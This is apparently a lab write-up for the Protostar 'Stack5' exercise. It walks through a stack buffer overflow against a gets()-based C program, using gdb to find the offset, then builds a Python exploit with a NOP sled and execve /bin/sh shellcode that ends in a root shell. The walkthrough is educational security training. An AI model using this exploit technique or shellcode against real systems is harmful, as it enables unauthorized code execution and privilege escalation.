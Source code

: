 # [cd ../](../index.md)
# Stack5

> Stack5 is a standard buffer overflow, this time introducing shellcode.
> Hints
- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
- remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Interesting
- Very little code
- We **dont** have a win function so we have to gain root shell

# Starting it
## Fuzzing
- Try the changing pattern in gdb
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```
as input and see where it segfaults  
Cmds:
```
gdb stack5
r < fuzzingpattern
info registers
```
![fuzz1](fuzz1.png)  
- **ebp** = **S**, **eip** = **T**
- We can `disass main` and we can `break *0x080483da` (the address of **ret**)
- Or we can `define hook-stop`  
![hook](hook.png)
## Change the exploit

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0x41414141)
print padding+eip
```

- Now we can test it
- The program returned to our **last stack** address.
![return](return.png)

## The exploit
- We have to jump to a valid location like **esp**
- After hitting the breakpoint we can `si` (step 1 instruction) and `info registers`
- We have the address of **esp** now `0xbffff7c0`
- Change the exploit a lilbit by changing the `0x41`'s to `0xbffff7c0`
- We have to append the shellcode that we want to execute after the return pointer
- We have to use the **INT3** (breakpoint) code now `\xCC`

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0)
payload = '\xCC'*4
print padding+eip+payload
```

![int3](int3.png)  
- We have code execution now
- We need a [shellcode](http://shell-storm.org/shellcode/) from this page and we will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) simple **execve**
- Copy the bytes to our python script as the payload variable
- Our code isnt working cuz we forgot to add some **NOP** instructions
- Lets add some lines to the code

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding+eip+nop+payload
```

- We can run it now with `python stack5.py | ./stack5`
  - We got nothing back cuz our shell auomatically closes when the program terminates
  - We can bypass this with `(python stack5.py ; cat) | ./stack5`  
![gotroot](gotroot.png)

# BOOM WE GOT THE SHELL AS ROOT
